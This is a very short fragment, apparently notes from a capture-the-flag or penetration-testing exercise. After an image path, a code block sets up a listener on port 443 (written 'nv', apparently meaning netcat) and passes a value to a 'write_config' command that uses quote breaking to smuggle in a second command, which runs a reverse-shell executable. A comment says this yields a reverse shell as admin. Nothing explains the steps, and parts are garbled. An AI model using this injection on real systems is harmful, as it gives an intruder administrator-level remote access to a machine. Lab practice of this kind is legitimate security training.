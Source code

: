 ```c
nv -lvnp 443
//get config>
write_config 123';C:\temp\reverse_443.exe '123   '

//get reverse shell as admin

```